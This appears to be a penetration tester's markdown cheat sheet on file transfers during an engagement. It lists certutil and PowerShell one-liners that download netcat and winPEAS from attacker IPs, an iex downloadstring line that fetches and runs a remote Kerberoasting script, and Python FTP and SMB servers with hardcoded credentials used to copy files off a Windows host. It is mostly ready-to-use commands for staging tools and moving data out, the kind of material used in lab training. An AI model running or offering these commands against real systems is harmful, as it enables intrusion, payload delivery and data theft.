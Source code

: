   # File Transfers
---------------------------

## CertUtil 
```cmd
certutil -urlcache -split -f "http://192.168.119.213:8000/nc.exe" nc.exe
```

## PowerShell
```Powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.0.2.15:8009/winpeas.exe', 'winpeas.exe')"
```

```Powershell
powershell Invoke-WebRequest -Uri IP:PORT/nc.exe -OutFile C:\Users\Public\nc.exe
```

```Powershell
iex(new-object system.net.webclient).downloadstring("http://192.168.119.230/GetUserSPNs.ps1.ps1")
```

```Powershell
powershell -c iwr http://10.10.14.51:8010/nc.exe -outfile nc.exe 
```

## FTP 

ftp server using python:

```bash
pip3 install pyftpdlib
```

```bash
sudo python3 -m pyftpdlib -u cbbn -P passw0rd123 -p 21 --write
```

## SMB 

### Transfer from our PC to windows:

```bash
python3 smbserver.py share /home/cibbin/
```

```cmd
copy \\IP\share\file_name.exe
```

### From windows to our PC:

smb2

```bash
python3 smbserver.py -smb2support share .
```

smb2 with creds:

```bash
python3 smbserver.py share /home/cibbin/ -smb2support -username cibbin -password root123
```

 - add the share in windows and connect to it:

```cmd 
net use \\IP\share /u:cibbin root123

copy filename.zip \\IP\share\

del filename

net use /d \\IP\share	#delete the mounted share
```

its important to delete the mounted share since it will use the same creds when logging in next time 

net use  */del 




